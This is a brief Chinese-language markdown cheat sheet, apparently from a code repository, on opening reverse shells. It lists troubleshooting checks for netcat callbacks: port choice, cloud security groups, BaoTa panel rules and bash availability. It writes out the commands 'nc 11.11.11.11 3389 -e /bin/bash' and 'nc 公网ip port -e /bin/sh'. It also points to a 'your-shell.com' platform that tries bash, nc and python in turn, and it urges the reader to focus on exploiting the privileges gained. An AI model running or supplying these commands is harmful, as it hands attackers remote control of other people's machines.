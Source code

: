 #命令反弹
##使用nc命令反弹
###nc反弹失败时，检查是否有nc命令
###检查IP地址是否正确
###端口是否正确 10000-65535
不要使用系统占用端口如```80 8080 3306 21 22 23 1433```
###云服务器控制台的安全组是否对端口放行
###如果服务器有宝塔面板，检查宝塔面板是否对端口放行了
###检查是否有bash
```
nc 11.11.11.11 3389 -e /bin/bash
```
###检查命令是否正确
```
nc 公网ip port -e /bin/sh 
```
##只能用公网IP才能反弹

当然也可以直接使用平台反弹
```
#登陆
your-shell.com
#使用your-shell反弹
bash
nc
python

```
会使用以上三种挨着试，哪个可以用就用哪个
不用关心具体的反弹语法，重点关注反弹后的权限利用


